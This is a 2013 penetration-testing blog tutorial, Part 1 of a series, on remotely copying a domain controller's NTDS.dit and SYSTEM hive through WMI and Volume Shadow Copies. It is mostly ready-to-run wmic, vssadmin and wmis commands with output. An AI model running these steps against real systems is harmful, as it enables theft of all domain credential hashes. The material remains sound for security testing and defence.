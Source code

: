 ---
author: mubix
comments: true
date: 2013-06-10 13:11:03+00:00
layout: post
title: Volume Shadow Copy NTDS.dit Domain Hashes Remotely - Part 1
categories:
- shadowcopy
- cracking
---

> This and part 2 are mostly just an update to [http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html](http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html) but without the need for VSSOwn, that and we are doing it remotely without the need for shell on the DC.

Ever run into a Domain Controller that wasn't allowed to talk to the Internet, had insane AV and GPOs not allowing anyone to RDP in (Even Domain Admins) unless they provided some kind of voodo happy dance? Ya me neither, but here is how you can still dump domain hashes and hash history if you run into that case. Lets start

First authenticate to the domain controller and make sure you have a good working directory to use.

```
net use \\DC1 /user:DOMAIN\domainadminsvc domainadminsvc123
dir \\DC1\C$
```    

Alright, lets say "TEMP" is there and it's empty on the remote DC. The way we are going to run commands will not allow us to get results directly so we are going to use a temp file on the DC in `C:\TEMP` where we already made sure is clear.

We are going to be using Volume Shadow Copies to pull the NTDS.dit file (Active Directory's DB much like Window's SAM file except that it stores the entire AD set of objects there), we also need the SYSTEM registry hive. You can get the SAM registry hive as well but that will only get local DC credentials.

So lets list the current volume shadow copies to see if we need to create one, from a Windows command prompt (or if you've installed wmic for Linux via [http://www.krenger.ch/blog/wmi-commands-from-linux/](http://www.krenger.ch/blog/wmi-commands-from-linux/) ) - this _IS_ an interactive command so this won't work very nicely in a Meterpreter shell:

```
C:\temp>wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin list shadows 2>&1 > C:\tempoutput.txt"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 7304;
        ReturnValue = 0;
};
```

To break down this command:

* `wmic /node:DC1` - tells it to interact with the WMI API on DC1
* `/user:DOMAIN\domainadminsvc /password:domainadminsvc123` - authentication
* `process call create` - WMI speak for create a process
* `cmd /c` - vssadmin doesn't operate outside of cmd for some reason...
* `vssadmin list shadows` - List any shadow volumes that already exist
* `2>&1 > C:\temp\output.txt` - Take STDIN and STDERROR and throw it in a text file on DC1 C:\TEMP. Make sure you specify full path because you will be executing from within C:\Windows\System32 and its a pain to find anything in that directory. So if you just specify > bob.txt you get to hunt in C:\Windows\System32 or wherever WMI wants to execute you from for bob.txt

Process starts and then you need to view the output file by either copying it down, `type \DC1\C$\TEMP\output.txt` or mount the C drive as a network share. Either way you should either see something like this:

``` 
C:\temp>type output.txt
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

Contents of shadow copy set ID: {671090fd-0198}
   Contained 1 shadow copies at creation time: 5/31/2013 11:29:03 AM
      Shadow Copy ID: {0863e309}
         Original Volume: (C:)\\?\Volume{c44da10e-0154-11e1-b968-806e6f6e6963}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: wpad
         Service Machine: wpad
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessibleWriters
         Attributes: Persistent, Client-accessible, No auto release, Differential, Auto recovered
```

or

```    
C:\temp>type output.txt
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

No items found that satisfy the query
``` 

If there are no shadow copies or the ones there are too old (look at the creation time), you can create a shadow copy using the 'vssadmin create shadow /for=C: command. (This command only applies to Server OS (Win2k3/Win2k8) but since those are the only two that commonly have NTDS.dit files we don't have to remember this):

```    
C:\temp>wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin create shadow /for=C: 2>&1 > C:\temp\output.txt"
``` 

The other thing to keep in mind is that NTDS.dit isn't always on the main drive. It is commonly on a "D" drive for safety if a HDD goes bad or something. But it should always be in a folder called NTDS. (By default this is C:WindowsNTDS)

Next we just copy the files out of the shadow copies. First the SYSTEM hive:

```
C:\temp>wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\SYSTEM.hive 2>&1 > C:\temp\output.txt"
```

Then the NTDS.dit (notice this one isn't in System32):

``` 
C:\temp>wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit 2>&1 > C:\temp\output.txt"
```

In Kali Linux you could use the WMIS package to do much the same thing:

``` 
root@kali:~# wmis -U DOMAIN\domainadminsvc%domainadminsvc123 //DC1 cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit 2>&1 > C:\temp\output.txt
NTSTATUS: NT_STATUS_OK - Success
```

Copy those files to your own system for offline extraction which I'll cover in part 2.